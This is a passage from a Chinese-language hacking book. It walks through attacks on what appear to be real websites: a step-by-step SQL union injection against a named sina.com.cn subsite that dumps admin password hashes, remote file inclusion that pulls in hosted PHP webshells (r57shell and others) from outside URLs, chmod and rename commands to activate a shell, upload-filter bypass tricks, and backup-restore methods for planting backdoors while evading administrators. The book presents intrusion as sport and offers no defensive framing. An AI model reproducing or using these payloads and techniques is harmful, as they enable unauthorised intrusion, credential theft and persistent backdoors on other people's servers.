这是看 user 的第一个字母是不是 r，返回信息如图 2-174 所示，看来不是 root，不能 load_file() 啦！由上面路径信息知道，这个机器应该是 Linux 的，为了验证下，我们还是提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and
length(load_file(0x2F6574632F706173737764))>0/*
```

返回信息如图 2-175 所示，看来真的没有 file 权限啦，也就不用判断是不是一台 web 和 Mysql 服务器了，很可惜，不过我们还是继续 injection 吧！

图 2-174　当前权限不是 root

图 2-175　不能读取文件

在进一步注入之前，我们还是来看看能不能找到后台吧。因为如果辛苦注入的结果是没有后台可以登录，通常能把人郁闷死！去同目录下加个 admin/ 回车，显示没有找到页面，换成 manage 等也没有。去根目录加个 /admin，哗的一下，登录页面出现了，如图 2-176 所示。嘿嘿，注入有望啦！其实找到登录的后台还有个作用，因为注入过程中是需要猜表和字段的，但是程序通常在登录的地方和数据库中用一个变量名，所以看看登录的字段就可以很快地猜测数据库中的字段啦！我们查看源文件，发现登录的用户名是 username，密码是 password，这也给了我们另外一个信息，数据库的表很有可能是 user 或者 admin 这些。凭什么？凭直觉啦！赶快去试试吧！

图 2-176　管理员后台登录页面

因为是 4.0 以上的数据库，所以我们不需要一位一位地猜测字段内容，可以一下子将结果 Union 到网页上来的！先看看有多少字段吧！手工加 union 然后一直加太麻烦，提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 order by 10/*
```

正常返回，说明字段大于 10 个；提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 order by 20/*..........
```

到 40 的时候出错了，说明字段在 30 和 40 之间。那么就测试 35 试试，最后确定字段数是 33。提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 order by 33/*
```

正常返回了，哈哈！然后再提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33/*
```

返回结果如图 2-177 所示，看来果然是支持 Union 的，并且好多字段都是字符类型的，还在页面有显示的哦！提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33/*
```

看看返回的结果，就可以在 7 和 8 出现的地方找到用户名和版本啦！继续我们的注入，提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select
1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,
26,27,28,29,30,31,32,33 from users/*
```

返回错误，提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select
1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,
26,27,28,29,30,31,32,33 from admin/*
```

正常返回，说明是存在 admin 这个表的，如图 2-178 所示。结合上面猜测到的字段，提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select
1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,17,18,19,20,21,
22,23,24,25,26,27,28,29,30,31,32,33 from admin/*
```

返回结果如图 2-179 所示，看到原来 15、16 的地方变成了用户名和密码了，密码加密了哦！去 md5 的破解网站搜索下，失败了，找不到密码，看来密码够强壮的啊！破解不出密码还是没用的，试试把中文的用户名作为密码登录，然后再拆分登录，还是不行，简单的社会工程学失败了！

图 2-177　返回好多可用的字段

图 2-178　得到用户名和版本

图 2-179　暴出管理员密码

分析一下，我们提交的这个 union 查询是查询出 admin 的第一条记录的，因为我们没有做任何的限制条件，既然第一个记录的密码破解不出来，那么其他的记录很可能被爆出来哦！用户越多，弱口令的可能性越大。提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122 and 1=2 union select 1,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,id,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33 from admin/*
```

发现没有报错，并且原来 17 的位置是 3，说明 id 这个字段是存在的，并且是从 3 开始的，那么一切就简单了。提交：

```text
http://XX.sina.com.cn/course/coursedetail.php?id=1122%20and%201=2%20union%20select%201,2,3,4,5,6,user(),version(),9,10,11,12,13,14,username,password,id,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33%20from%20admin%20where%20id>3/*
```

这条语句是给查询语句加上限制条件，出来结果如图 2-180 所示。哈哈，又出来一个用户名和密码了吧！拿它的密码去破解一下，发现是 123123，太好了，果然是个弱口令，如果这个不行的话，我们可以接着往下找弱口令用户，一定会存在的哦！

图 2-180　暴出其他管理员密码

剩下的就好办了。去后台用得到的用户名和密码登录成功，如图 2-181 所示。后台还真有不少功能。一个学校图片管理的地方吸引了我，赶紧去看看，发现是有上传的。选择一个 php 后门上传试试，晕！居然没有提示任何错误，去图片管理查看新上传的图片属性就得到我们的后门地址了，如图 2-182 所示。至此，对 sina 关于脚本的小小安全检测结束了，由于管理员小小的疏忽导致我们成功地拿到 webshell。后台可以更改所有人的密码以及一些新站的域名信息哦，我不敢动，怕怕！

图 2-181　成功进入后台

图 2-182　通过图片上传木马得到 webshell

很多系统往往就是因为一个参数没有过滤而导致被人攻陷的，服务器在某些地方倒是做了过滤，不过还是被我发现了一个缺少过滤的参数，呵呵，就算是一次练手吧！文章很简单，有什么问题欢迎到 NoHack 论坛或者 BCT 讨论，我的 ID 是剑心大人。

编辑点评：  
相信看了这篇文章，大家就会知道攻破一个大的门户网站也不是件难事。剑心入侵了 sina 的一个分站，在文章里说不过是新学了一点 php 注入技术练手，这是一种很好的 hack 心态。如果你要去检测一个网站，在没有动手之前就想人家的站如何大、如何有名气，肯定安全，那我估计你的技术也只能发挥出一半水平了。黑客入侵是一种竞技，心态很重要。

### 2.7 文件包含漏洞

在这一节为大家讲授大名鼎鼎的文件包含漏洞，相信经常关注脚本攻击的朋友应该听过甚至玩过这个漏洞。目前利用远程文件包含漏洞来入侵网站是国外目前使用最为普遍的一种入侵方式，对于菜鸟来说也是一种非常容易掌握的入侵方式。

那么，远程文件包含漏洞到底是什么呢？简单地说，远程文件包含漏洞就是因为 PHP 文件中的变量过滤不严，没有判断提交的参数是本地的还是远程主机上的，因此我们可以指定远程主机上的文件作为参数来提交给变量执行，而如果提交的这个文件中存在恶意代码甚至干脆就是一个 php 木马的话，文件中的代码或 php 木马就会以 WEB 权限被成功执行。因为这个漏洞是 PHP 文件中的变量过滤，所以这个漏洞也只有 PHP 系统中存在，这个常识问题大家要清楚哦！

对于大部分人来说，要利用文件包含漏洞进行入侵的过程为：首先根据网上公布的漏洞资料，在漏洞的公布上，我给大家推荐 http://www.milw0rm.com/ 这个网站，这个网站是专门用于发布漏洞的，而我们要说的文件包含漏洞自然有很多，可以找到我们需要的文件包含漏洞。如图 2-183 所示。

图 2-183　漏洞公布网站 milw0rm

有了漏洞资料后，我们就是要找到存在这个漏洞的网站了，我们可以使用 google hack 技术来获得使用这个系统的网站。然后使用包含有恶意代码的文件或是 php 木马进行入侵，如果入侵成功的话，寻找对方站点内有写权限的目录，上传 php 木马获取 webshell。如果想进一步入侵的话，还可以上传本地溢出程序，尝试获取对方系统的 root 权限，安装木马等等，从而最终完全控制这个网站的服务器。

在这一节中，我就先教大家如何利用文件包含漏洞来进行网站的入侵，使大家可以达到利用漏洞公告及 exploit 来入侵网站的目的。至于为什么会出现这个漏洞，以及怎么在程序中寻找这个漏洞，我会在第 10 章中为大家详细地介绍。这里给大家解释一下 exploit：它是利用一切可以利用的工具、采用一切可以采用的方法、找到一切可以找到的漏洞，并且通过对漏洞资料的分析研究，从而达到获取网站用户资料文档、添加自定义用户、甚至侵入网站获得管理员权限控制整个网站的最终目的。更为通俗地说就是一个漏洞的攻击程序，利用它我们就可以达到攻击的目的，从而获得相应的权限。

这里还要提醒大家一点，虽然前面我们搭建 PHP 环境的时候用的是 windows 系统，但是在实际中，PHP 网站大部分是架构在 Linux 或 Unix 操作系统下的。所以我们在进入文件包含漏洞攻击的时候，经常会用到一些 Linux 或 Unix 命令和其他知识，不过对于用到的知识我都详细地给大家解释，这点不必担心。这里为了大家方便学习，在光盘中，我已经为大家准备了《LINUX 系统命令应用知识书籍》这个电子书，里面收录了大部分的 linux 命令，很适合大家在入侵的时候用。如果大家想系统性地学习 Linux 的话，可以去买如《红帽 Linux9 从入门到精通》这本书，而 linux 下的黑客书我向大家推荐由我的好朋友姜超写的《黑客 Linux 入门》，该书讲述了很多 Linux 下的黑客技术。

下面就开始我们的文件包含漏洞的攻击之路吧。首先我们要在网站 milw0rm 中得到一些存在文件包含漏洞的信息，当然你也可以通过其他途径得到网站漏洞的资料。因为在 milw0rm 中存在很多的漏洞信息，所以这里给大家提供一个小技巧。该网站在首页中提供了一个“search”的功能，点击进入后我们搜索关键字“File Include”就可以找到所有文件包含漏洞的资料，如图 2-184 所示。

图 2-184　存在文件包含漏洞的所有信息

这里我用 AFGB GUESTBOOK 2.2（Htmls）远程文件包含漏洞为例来详细地看看利用过程，其实大部分的文件包含漏洞利用的过程都差不多，而且 milw0rm 所公开的文件包含漏洞的信息中都已经提供了 Exploit 和攻击方法。我们只要按照它的方法就可以顺利地完成攻击了。AFGB GUESTBOOK 2.2 是由台湾人开发的一套 PHP 留言版系统。如图 2-185 所示，这是 milw0rm 对 AFGB GUESTBOOK 2.2（Htmls）远程文件包含漏洞的利用方法及 Exploit。

图 2-185　Net_DNS <= 0.3 漏洞的攻击方法

按照图 2-185 中的说明，出问题的文件是 add.php?、admin.php?、look.php?、re.php。

而且已经给出了攻击的例子了，这里为了大家方便把它写出来，为：

```text
http://www.target.***/[path]/add.php?Htmls=http://shell.txt?
http://www.target.***/[path]/admin.php?Htmls=http://shell.txt?
http://www.target.***/[path]/look.php?Htmls=http://shell.txt?
http://www.target.***/[path]/re.php?Htmls=http://shell.txt?
```

这里的 http://www.target.***/[path]/ 就是我们要攻击的网站的 URL 地址。而 add.php?、admin.php?、look.php?、re.php 就是出现文件包含漏洞的文件，而 Htmls 就是文件中接收数据的参数，正是由于这个参数才使得文件包含漏洞出现了。http://自己的网站/shell.txt? 就是要我们所提交的数据，其实就是一个 PHP 木马的地址。这个地址可以用我们自己的，也可以用网络上一些为大家准备好的地址。对于大部分人来说，都是没有自己的木马地址。所以这里为了和大家保持一致我也使用网络上的地址。

目前这样的 PHP 木马地址，国内的有 http://www.sagi.net.cn/php.txt；国外的有：

```text
http://hack-viyu.hl6.ru/shell/r57shell.txt
http://pang0.by.ru/shall/pang057.zz
```

根据上面所提供的信息，我们接下来就是要查找使用这套系统的网站了。通过我的搜索发现，只要我们输入“inurl:afgb.php?A=”或者“程式设计：过往云烟[V2.2]”就找到非常多的使用这个系统的网站，例如我搜索 inurl:afgb.php?A= 就可以得到 99900 条记录，如图 2-186 所示。

图 2-186 搜索到使用 AFG B GUESTBOOK 系统的网站

有了网站之后，就是往网站里写入 PHP 木马了，整个利用过程非常简单。根据上面的提示，我们只需要在参数 Htmls 后填上我们的 PHP 木马地址就行了。例如我们要获得 http://rapworld.iglu.cz/guest/ 的 webshell，如图 2-187 所示。

图 2-187 使用 AFG B GUESTBOOK 系统的网站

因为这个系统中出现了四个漏洞，所以我们有四种方法获得 webshell，它们分别是：

- http://rapworld.iglu.cz/guest/add.php?Htmls=http://www.sagi.net.cn/php.txt
- http://rapworld.iglu.cz/guest/admin.php?Htmls=http://www.sagi.net.cn/php.txt
- http://rapworld.iglu.cz/guest/look.php?Html=http://www.sagi.net.cn/php.txt
- http://rapworld.iglu.cz/guest/re.php?Html=http://www.sagi.net.cn/php.txt

其中 http://www.sagi.net.cn/php.txt 就是我们所用的 PHP 木马地址了，而它前面的就是网站中存在的文件包含漏洞的 URL，在前面的漏洞公告中已经说明过了。这里我使用 http://rapworld.iglu.cz/guest/add.php?Htmls=http://www.sagi.net.cn/php.txt 就轻易地获得了这个网站的 webshell，如图 2-188 所示。

图 2-188 利用漏洞获得的 Webshell

这个网站使用的是 Linux 操作系统，利用 Apache 搭建的服务器。网站的绝对路径为 /iglu/velkej-disk/home/rapworld/web/default/guest，而且在这个目录下的权限是超级管理员权限，即为 root。可以仔细看图 2-188 中 /iglu/velkej-disk/home/rapworld/web/default/guest 后面括号中是（drwxrwxrwx），它就代表着超级管理员的权限了。这里要提示大家：关于 UNIX/Linux 的权限知识，在 UNIX/Linux 系统中，目录及文件的权限分为所有者权限（属主权限）、同组用户权限、其它组用户权限。而每一组权限又分为 r（只读）、w（只写）、x（执行）。比如上边的 rwxrwxr-x，第一个 rwx 表示文件及目录的所有者的权限为读、写、执行；第二个 rwx 表示同组用户的权限为读、写、执行；第三个 r-x 表示其它组用户的权限为读和执行。

我们前面提交的木马 php.txt 已经被放在了 /iglu/velkej-disk/home/rapworld/web/default/guest 目录下了。其默认上传后的权限为 rw-r--r--，如果是 .php 扩展名的话，就可以直接访问了。只可惜是 .txt，因此还得将这个 .txt 文件改为 .php 文件。在改名前，注意一下这个 php.txt 文件，因为它默认并没有 x 执行权限，因此我们要想给它改名的话，还得先使用 chmod 命令给它设置可执行权限。提示：chmod 命令可以用来更改文件的属性，即可以修改我们文件的权限。在 webshell 中，我们可以利用它已经提供的这个功能来完成这个操作，如图 2-189 所示。

图 2-189 更改文件权限

因为要更改 php.txt 的后缀名，而网站的绝对路径是 /iglu/velkej-disk/home/rapworld/web/default/guest/，所以在 param1 中我们应填入 /iglu/velkej-disk/home/rapworld/web/default/guest/php.txt。而在 param2 中我们一定要填入 0777。0777 代表的意思就是 rwxrwxrwx，也就是超级管理员的权限，这里不过只是用了数字表示而已。然后我们点击“Execute”按钮执行，执行完毕以后就会将 rwxrwxrwx 权限赋给 php.txt 文件了。

更改完 php.txt 的权限后，就要将 php.txt 改为 php.php。这个时候我们要用到 rename 命令，它的作用就是对文件进行重命名。我们运行 rename：

```bash
rename /iglu/velkej-disk/home/rapworld/web/default/guest/php.txt /iglu/velkej-disk/home/rapworld/web/default/guest/php.php


```

后就成功对文件进行了重命名。那么在以后我们只要输入 http://rapworld.iglu.cz/guest/php.php 就可以访问我们的 Webshell 了，如图 2-190 所示。

图 2-190 更改为 php.php 后返回的 webshell

当然，我们得到了 webshell 并不是最高权限，如果还要继续渗透的话，得得到该网站服务器的 root（超级管理员）权限。可以运行 php 木马最下方的“Bind port to /bin/bash”或是“back-connect”来尝试得到对方系统的 shell（类似 Windows 下的 cmd shell 的那种命令执行环境）。然后我们上传这个系统存在本地溢出的攻击程序，最后编译执行，如果溢出成功的话，就会获取对方系统的 root 权限。不过，并非每一个网站都可以成功得到对方的 shell，即使是使用反弹连接方式也不一定每次都会成功（比如对方有防火墙，或是因为网络原因）。对于这个方面这里不详细讲解，大家可以去看一些系统本地溢出程序的使用方法。

对于远程包含漏洞，除了手工检测方式外，也可以利用一些工具来进行。这里我向大家推荐 r-include2 这款工具（在光盘中已自带），它的使用格式为：r-include2 检测网站 远程包含的文件 shell文件 -r。如果我们省略 shell 文件的话，默认将会使用 http://www.sagi.net.cn/cmd.txt 这个文件，在“[cmd]$”提示符后输入我们想要执行的命令就可以了。我还是以 http://rapworld.iglu.cz/guest/ 来作为例子说明，使用工具 r-include2 我们只需要输入 r-include2 http://rapworld.iglu.cz/guest/ add.php?Htmls= -r 就可以得到一个 shell 了，如图 2-191 所示。虽然事实上它并不是一个真正的 shell 环境，但对于习惯了入侵 UNIX/Linux 的黑客来讲，却更容易接受这种命令执行环境。

图 2-191 获得的一个 shell

文件包含漏洞针对的基本上都是 UNIX/Linux 系统（Windows 系统只占少数），因此，倘若大家想更好地掌握远程文件包含漏洞的利用，诸如一些命令的使用、如何进行本地溢出，甚至是如何安装 rootkit、如何制作后门等，就必须先掌握 UNIX/Linux 系统的一些基础知识。所以希望大家在学习文件包含漏洞的同时，也能够适当去学习一些 UNIX/Linux 知识，这样就更加利于我们入侵了。

其实，大部分文件包含漏洞的使用方法都差不多，在得到 webshell 后我们可以做非常多的事。比如，在 UNIX/Linux 系统中，我们输入 etc/passwd 后就可以看到服务器上的密码文件了；还可以提升权限获得系统控制权。这样会涉及到很多 UNIX/Linux 的知识，本书并不打算讲太多 UNIX/Linux 方面的知识，所以在光盘中我已经给大家提供了一本关于 UNIX/Linux 的书。对于 Webshell 的使用方法和提权，接下来就给大家介绍。

### 2.8 旁注攻击

说起旁注，其实也就是看同一台服务器上是否绑有多个站点。因为现在大部分网站都使用虚拟主机，如果每一个网站都是一台服务器的话，那电信就会亏本死了。如果绑有多个站点，那么就算其中一个站点的脚本做得很安全，我们也可以从另一个网站进行突破。

我们说的旁注一般指的是绑了不同域名的不同站点上的旁注，这里我称为广义上的旁注。其实，还有一种由于同一站点内使用了多套不同程序，其中一套也许比较安全，但另一套却是有漏洞的。这里我称之为狭义的旁注。如动力 3.51+dvbbs7.1 的站点中，dvbbs7.1 也许比较安全，但动力 3.51 漏洞百出，这就是狭义旁注利用的一个例子。我们在入侵的时候先攻破动力 3.51 后获得 webshell，那么同样我们也可以搞定使用 dvbbs7.1 系统的网站。关于狭义的旁注比较好理解和利用，我这里就不多说了，只说一个极易被管理员忽略的狭义旁注利用就可以了。

这个容易被人忽略的地方是 eWebEditor。eWebEditor 是一款优秀的基于网页的在线编辑器，很多系统都会选择它作为第三方插件，实现在线编辑功能。但是，许多站长并不知道自己下载的系统中还包含有 eWebEditor，所以很少有人会去改它的默认管理员用户名、密码、数据库路径，这就给我们带来了入侵的机会。

怎么判断一个系统有没有用 eWebEditor 呢？如图 2-192 所示，如果有图中标记处的按钮出现，该系统就大致可以确定是用了 eWebEditor。

图 2-192 eWebEditor 系统

好了，下面在出现图 2-192 所示页面的地方查看源代码，我们现在得到了 eWebEditor 的路径为 edit，访问 www.xxxx.com/edit/admin_login.asp，来到图 2-193 所示页面，用默认用户名 admin、密码 admin 试试是不是进去了，如图 2-194 所示。

图 2-193 eWebEditor 后台登录页面

图 2-194 利用默认密码进入后台

如果不行，那就试试访问 www.xxxx.com/edit/db/ewebeditor.mdb，看是不是能下载 eWebEditor 的数据库了呢？如图 2-195 所示。不过密码是 md5 的，又要慢慢破了。

图 2-195 下载 eWebEditor 系统数据库

简单提了一下一个容易被人忽略的 eWebEditor，下面要开始讲我们通常讲的广义上的旁注了。引起这个旁注的原因，主要是因为我们现在使用的 DNS 域名需要统一向总部位于美国的国际域名组织进行注册，而国际域名组织为了方便管理等原因，将域名信息放到了 whois 查询系统中。这样，只要用 whois 就能查出某域名解析的 IP 是什么。得到解析的 IP 后，我们可以继续通过 whois 的查询功能，在域名记录里寻找到所有解析到这个 IP 的域名信息，这样我们就可以知道一个服务器上绑了多少个站点了。

下面我们来具体实践一下，就拿我的 cnnsafe.com 开刀吧。

首先打开 http://whois.webhosting.info，如图 2-196 所示，在框中输入 cnnsafe.com，点 Go，来到图 2-197 所示页面，得到 CNN 安全网的 IP，然后再点那个 IP，就会来到图 2-198 所示页面，还绑有几个域名在这里，呵呵，下面就可以看看其它站有没有什么漏洞了。

图 2-196 打开 whois 查询

图 2-197 查看是否存在其他站点

图 2-198 查询后的结果

如果英文不好，也可以用老兵的工具查询，步骤是一样的，如图 2-199 到 2-201 所示。

找到在同一服务器上的站后，就用前面的方法检查站点安全性吧。

图 2-199 虚拟主机查看工具

图 2-200 输入要查询的域名及 IP 地址

图 2-201 查询后返回的虚拟主机

## 2.9 如何获取 Webshell

相信大家在前面已经初步接触了 Webshell，那么什么是 webshell？webshell 其实就是 web 入侵的一种脚本攻击工具。简单地说，webshell 就是一个 asp、php 或 jsp 木马后门。我们在入侵了一个网站后，常常将这些 asp、php 或 jsp 木马后门文件放置在网站服务器的 web 目录中，与正常的网页文件混在一起。然后黑客就可以用 web 的方式，通过这些木马后门控制网站服务器，包括上传下载文件、看数据库、执行任意程序命令等等。

webshell 最大的优点就是可以穿越防火墙。由于与被控制的服务器或远程主机交换的数据都是通过 80 端口传递的，因此不会被防火墙拦截。并且使用 webshell 一般不会在系统日志中留下记录，只会在网站的 web 日志中留下一些数据提交记录，如果不查看 web 日志，是不可能发现我们入侵痕迹的。前面给大家讲了那么多攻击方法，目的就只有一个，那就是获得 webshell。而本节就来给大家介绍一下我们通过发现漏洞后（如注入）如何获得一个网站的 webshell 的一些常用方法。

#### 2.9.1 上传

现在功能稍微强大一点的系统都提供了上传功能，利用上传我们向服务器传送文件、图片等等，从而使系统更加美观和人性化。但是上传弄得不好就会出现比较大的问题。如果它在处理文件上传时对文件后缀名处理不当，那么我们就可以顺利上传一个木马，一下就得到了 webshell。这个漏洞和前面所讲的文件包含漏洞一样，可以直接得到 webshell。

有一些提供了上传功能但同时安全性也是最差的系统，会出现这样的上传漏洞。我们不需要任何权限就可以得到上传文件的功能。例如存在一个这样的 ASP 系统，它提供给我们的是上传图片的功能，但是却没有检查我们上传的文件是不是图片。所以这个时候我们可以上传一个 ASP 木马进去，一下就可以得到 webshell。安全性稍微好一点的，会过滤 ASP 后缀名，但是这样并不能阻止我们得到 webshell。因为是 ASP 系统，所以服务器肯定是 Windows。因此我们可以上传一个 ASPX 木马，或者将 ASP 木马后缀改成 ASA 或 CER。IIS 对这些文件同样会解析，所以我们上传的这些文件在服务器中同样会被执行，那么同样可以得到一个 webshell。曾经还出现过这样一个上传漏洞，就是将 ASP 木马的后缀改成 AASPSP，那么就可以得到一个 webshell。这是因为系统过滤了 ASP，所以当我们提交 AASPSP 后中间的 ASP 会被去掉，那么这个时候 AASPSP 是不是又变成 ASP 了呢？

这些漏洞同样存在于 PHP 和 JSP 中。例如 PHP 和 JSP 一般都是用 Linux 或 Unix 做服务器，而 Linux 或 Unix 还会解释 Perl 文件（Perl 文件的后缀名为 pl），所以如果系统过滤了 PHP 或 JSP，那么可以试着上传一个 Perl 木马，那么同样可以得到 webshell。而如果 PHP 和 JSP 系统是架构在 Windows 服务器上的话，那么可以上传 ASPX、ASA、CER 等文件，也可以获得 webshell。它们虽然语言不同，但是方法和技巧是相通的。

对于上传漏洞攻击，我们就一定要提到动网 7.0SP2 之前的文件上传漏洞了。至于漏洞原理这里就不提了，只告诉大家如何利用这个漏洞。

要利用动网的这个上传漏洞，我们要请出桂林老兵写的万能上传工具，如图 2-202 所示。之所以叫万能上传，是因为大名鼎鼎的动网都没有注意到这个严重漏洞，那么其他系统也基本上避免不了，所以称它为“万能上传”。

图 2-202 万能上传工具

我们利用 Google Hack 技术找到没有打过 SP2 补丁的 dvbbs，注册一个账号，登录进去后看有没有禁止上传。如果没有禁止，我们就提取当前 cookies 保存起来并填在万能上传工具中，然后在万能上传工具处填好漏洞 URL，即所要提交的地址，还有上传的木马文件。如图 2-203 所示，点“上传”，不一会儿就提示成功了。我们现在来访问这个上传后的文件，如图 2-204 所示，那么这个时候我们就得到了一个 webshell 了，如图 2-205 所示。

图 2-203 填入所攻击的网站的 Cookie、URL 及本地机器的木马路径

图 2-204 木马上传成功
图 2-205 成功获得 webshell

当然，并不是所有的系统都能用这个方法上传的。下面给大家总结几个常见的上传方法。

- 1. 进入后台直接上传。有些系统对管理员可是十分信任的哦，进了后台只要找到有上传的地方你就可以直接选木马放上去，绝不会有任何阻拦，如图 2-206 所示。一般来说是什么系统就上传什么木马，比如是 PHP 系统那么我们就上传 PHP 木马。目前这种问题在 PHP 和 JSP 的一些程序比较常见，MolyX BOARD 就是其中一例，我们直接在心情图标管理上传 PHP 类型，虽然没有提示，其实已经成功了，上传的文件 URL 应该是 `http://forums/images/smiles/` 下；还有以前的联众游戏站和网易的 JSP 系统漏洞就可以直接上传 JSP 文件。文件名是原来的文件名，bo-blog 后台也可以直接上传 PHP 文件，上传的文件路径有提示。以及还有以前非常流行的 upfile.asp 漏洞（动网 5.0 和 6.0、早期的许多整站系统），因过滤上传文件不严，导致用户可以直接上传 webshell 到网站任意可写目录中，从而拿到网站的管理员控制权限。
图 2-206 利用后台直接上传木马

- 2. 添加上传类型上传。如果不能直接上传，可找找看有没有添加上传类型的地方，对于 ASP 系统有的话添加一个 ASP 就可以了，如果不能添加 ASP 后缀的话，还可以在上传类型中增加 `asp `，注意，asp 后面是有个空格的，那么上传一个后缀名为 `asp ` 的木马也会被解释成 ASP，同样可以获得 webshell。例如 LeadBbs 3.14 后台获得 webshell 方法是：在上传类型中增加 `asp `，注意，asp 后面是有个空格的，然后在前台上传 ASP 马，当然也要在后面加个空格。我们还可以添加允许上传 ASA、CER 等文件，然后把 `.asp` 的后缀改为 ASA 或 CER 上传，一样可用，如图 2-207 所示；如果是 PHP 系统那么可以添加一个 PHP，如果不行还可以试着添加 pl，然后上传一个 Perl 木马，甚至可以添加 ASP、ASA、CER 然后上传。对于 PHP 系统的后台，我们还可以添加 `.php.hack` 的上传类型，这是 PHP 的一个特性，主要是因为 Apache 在解析文件后缀上的一些小问题导致的，我们只要保证最后的那个后缀名不是已知的就可以，例如 PHP 会将 `php.hack` 作为 `.php` 来正常运行，这是因为 hack 这个后缀名根本就没有，所以 Apache 就会忽略 `.hack` 的解析，从而解析 PHP，从而也可成功拿到 shell。
图 2-207 添加其他的上传后缀

- 3. 抓包上传。这里就要利用 Win2000 的一个小漏洞了，如果文件名的结尾是空格或“.”号，那么 Windows 会自动把这个符号“吃”掉。那么，我们就可以添加允许上传“ASP ”文件，注意 ASP 后有个空格，ASP 可不等于 ASP 啊，所以代码里的限制就没用了。然后我们来到文件上传界面，选择一个 ASP 文件，先别上传。我们打开抓包工具 Wsock Expert，如图 2-208 所示，选择监控 IE 的上传窗口，然后回到上传界面，点击上传，提示上传失败，预料之中。我们来到 Wsock Expert，找到刚才提交的数据包，如图 2-209 所示，看到那个 `mm.asp` 没有，我们在这个后面加个空格，再用 NC 提交，成功上传！
图 2-208 打开 Wsock Expert
图 2-209 利用 Wsock Expert 抓取数据包

- 4. 利用表单冲突上传。用这个方法最典型的就是动力 3.51 的上传了。我们同样注册一个用户，来到发表文章处，切换到“源代码”模式，输入下面的代码：

```html
<FORM name=form1 onsubmit="return check()" action=upfile_article.asp method=post encType=multipart/form-data><INPUT class=tx1 type=file name=FileName> <INPUT class=tx1 type=file name=FileName><INPUT style="BORDER-RIGHT: rgb(88,88,88) 1px double; BORDER-TOP: rgb(88,88,88) 1px double; FONT-WEIGHT: normal; FONT-SIZE: 9pt; BORDER-LEFT: rgb(88,88,88) 1px double; LINE-HEIGHT: normal; BORDER-BOTTOM: rgb(88,88,88) 1px double; FONT-STYLE: normal; FONT-VARIANT: normal" type=submit value=上传 name=Submit></FORM>


```

再来到“预览”模式，是不是看到了两个选择上传文件的框却只有一个上传按钮啊？如图 2-210 所示。我们在第一个框处选择一个 ASP 文件，第二个框处选择一个 JPG 文件，然后点上传。可能会提示冲突，但我们返回“源代码”模式，就可以看到我们上传后的 webshell 地址了。
图 2-210 添加两个上传框

- 5. 利用代码对文件类型的限制上传。现在许多代码为了安全都限制了上传 ASP、PHP、JSP 文件，但一些代码的限制方法实在令我不敢恭维。我见过有些代码的限制方式是一遇到 ASP、PHP、JSP 就把它们去掉的。那么，我们完全可以添加一个上传类型 ASASPP、PPHPP、JJSPSP，这样一来，在上传过程中代码会把中间的 ASP、PHP、JSP 去掉，后缀自然也就变为 ASP、PHP、JSP 了。

- 6. 利用其它上传工具。老兵的万能工具虽名为万能，但因为有些系统的上传代码与动网的是有差异的，所以这个工具对它就失效了。所以大家要随时关注漏洞的动态信息，如果发现公布了某个上传漏洞的专用工具，那么利用它就可以顺利地获得 webshell。

#### 2.9.2 后台备份及恢复

现在很多功能强大的系统都提供了一个叫后台数据库备份与恢复的功能，在这个方面做得最好的要算是动网了。在我们进入到网站后台后，经常使用后台备份与恢复来获得 webshell。这里我就以利用动网和动力这两个系统的后台备份及恢复来获得 webshell 为例子来说明，对于其他如 PHP、JSP 系统，如果也提供了后台备份及恢复的功能，那么它们得到 webshell 的方法和动网下的很类似。

先说说常规的方法吧。一般地，我们就是把一个 ASP 木马改为 GIF 后缀上传，然后记下上传后的地址。下面，我们来到数据备份页面，如图 2-211 所示，在“数据库路径”处填自己刚才上传的文件名，在“备份后路径”处填自己想要种马的地址，注意后缀为 ASP，点“备份”后，我们把它的地址和网站的 URL 组合后就是我们的 webshell 地址，那么就得到了自己想要的 webshell。
图 2-211 数据备份页面

对于动网，它允许我们自定义当前数据库地址，但是动力却不可以这样。不过我们可以通过暴库后台来看到动力的数据库地址。和前面一样，先把一个 ASP 木马改为 GIF 的后缀，然后上传。现在我们来到“数据库恢复”页面，看到有一个可以自定义恢复数据库的路径，如图 2-212 所示。我们选择刚才上传的文件路径，点击“恢复数据”按钮，如图 2-213 所示。
图 2-212 自定义恢复数据库的路径
图 2-213 恢复我们刚才上传的文件

因为我们恢复的时候是用我们上传的木马文件代替了系统的数据库，所以恢复成功后整个系统就用不了了。但我们只需访问数据库地址就可以得到 webshell 了。当然，如果我们这样入侵的话，那没什么很大的意义，因为系统不能用了，管理员几分钟就会发现网站被入侵了。所以为了不被别人发现，最好还是先把系统的数据库备份好，在让我们得到 webshell 后再用 webshell 上的功能把系统的数据库恢复回去。那么这样既达到了获得 webshell 的结果，又达到了没破坏网站的目的，从而使我们的 webshell 隐蔽性高一些。

#### 2.9.3 SQL 导出

对于后台使用 MSSQL 数据库且网站有注入点的网站来说，我们还可以用由臭要饭的发明的 SQL 写入导出大法得到 webshell，其原理是在知道网站物理路径的情况下通过往 SQL 数据库中写入一个带木马的表，再将这个表导出，就得到 webshell 了。为了不让管理员发现，我们还要删掉这个新建的表。为此臭要饭的还专门写了一个叫 getwebshell 的工具来获取 webshell，如图 2-214 所示。
图 2-214 getwebshell 的主界面

